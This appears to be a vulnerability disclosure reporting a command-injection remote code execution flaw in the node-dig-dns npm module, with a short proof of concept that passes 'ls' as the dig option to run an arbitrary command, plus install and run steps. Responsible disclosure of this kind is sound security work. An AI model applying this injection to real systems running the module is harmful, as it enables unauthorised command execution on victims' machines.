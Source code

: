 
I would like to report an  `RCE`  issue in the  `node-dig-dns`  module. It allows the execution of arbitrary commands remotely inside the victim's PC.

The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/StephanGeorg/node-dig-dns/blob/master/src/index.js#L6).
## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var dig = require('node-dig-dns');

dig([],{'dig':'ls'})
  .then((result) => {
    console.log(result)
  })
  .catch((err) => {
    console.log('Error:', err);
  });
```
2. Execute the following commands in another terminal:

```bash
npm i node-dig-dns # Install affected module
node poc.js #  Run the PoC
```
3. The output will show you the result of the `ls` command

Please, note the vulnerability occurs only with a `mono` command, making the commands to be executed more difficult and a little impactful. Anyway, Linux is a complex ecosystem, where commands like `shutdown` can be used in any way to make the PoC work and a bit better.

## References
- [GitHub Issue](https://github.com/..https://github.com/StephanGeorg/node-dig-dns/issues/6)
- [GitHub Permalink](https://github.com/StephanGeorg/node-dig-dns/blob/master/src/index.js#L61)